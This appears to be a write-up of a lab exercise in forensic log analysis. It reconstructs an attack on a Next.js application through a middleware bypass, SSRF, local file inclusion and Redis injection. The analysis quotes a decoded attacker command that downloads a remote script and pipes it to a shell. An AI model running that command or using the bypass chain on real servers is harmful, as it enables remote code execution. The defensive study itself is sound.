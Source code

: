 | interface.log  | SHA1      | 0a17bdb7f9ba81daabca4538e46072e9bb93346e                         |
| interface.log  | MD5       | a52235ea06cc823ed671cdb311f4b2d1                                 |
| redis.log      | SHA256    | 66f97589a74e3a9ac237ef8668da975b0af6255ac8790288097c2fe4afa752f7 |
| redis.log      | SHA1      | 09fb294a5d8b588b48928a789f2caee6a3400785                         |
| redis.log      | MD5       | 16af67ac6fda9451efe7ff82f947fbe6                                 |
## Skills Learned
- **Multi-Source Log Correlation:** Analyzing and connecting events across different log files (NGINX, Next.js, Redis) to build a comprehensive attack timeline.
- **N-Day Vulnerability Identification:** Using application version information and OSINT to identify a known vulnerability (**CVE-2025-29927**).
- **Exploit Chain Analysis:** Deconstructing a complex attack involving a middleware bypass, Server-Side Request Forgery (**SSRF**), Local File Inclusion (**LFI**), and Redis command injection.
- **Payload Decoding:** Using tools like CyberChef to decode Base64-encoded commands and uncover the final payload.
- **Command-Line Log Analysis:** Utilizing tools like `grep` and `wc` for efficient searching and counting within log files.
## Initial Analysis
The investigation followed a step-by-step reconstruction of the attacker's activities by correlating data from the provided log files.
1. **Reconnaissance & Initial Exploit:** The `interface.log` first established that the application was running **Next.js v15.1.0**. This version was identified as vulnerable to **CVE-2025-29927**, a middleware bypass flaw. The `access.log` showed the attacker fingerprinting the application and then repeatedly probing the `/api/bci/analytics` endpoint. After five unauthorized attempts, a successful `200 OK` response at **11:38:05** confirmed the bypass was successful, likely by manipulating the `x-middleware-subrequest` header.
2. **Lateral Movement via SSRF:** The attacker chained the bypass with a Server-Side Request Forgery (SSRF) vulnerability. The `data-api.log` revealed an internal port scan originating from `127.0.0.1`, which discovered an internal API running on port **`4000`**.
3. **LFI and Information Gathering:** Now targeting the internal API, the attacker brute-forced endpoints and found a `/logs` endpoint vulnerable to **Local File Inclusion (LFI)**, confirmed by path traversal patterns in the logs. The first malicious use of this LFI occurred at **11:39:01**. The attacker leveraged this to read sensitive system files, ultimately exfiltrating a file named `secret.key`.
4. **RCE via Redis Injection:** The final stage of the attack is visible in `redis.log`. Using the information gathered from the LFI, the attacker crafted a malicious command and injected it into the Redis server via the `OS_EXEC` function. The command contained a Base64-encoded payload.
5. **Payload Execution:** Decoding the payload revealed the final command: **`wget http://185.202.2.147/h4P1n4/run.sh -O- | sh`**. This command downloads and executes a remote script, confirming that the attacker achieved Remote Code Execution on the server.
## Questions:
1. **What version of Next.js is the application using?**
Reviewing the logs, we eventually find that `interface.log` contains the information we are looking for for this question. The version of Next.js being used is `15.1.0`.
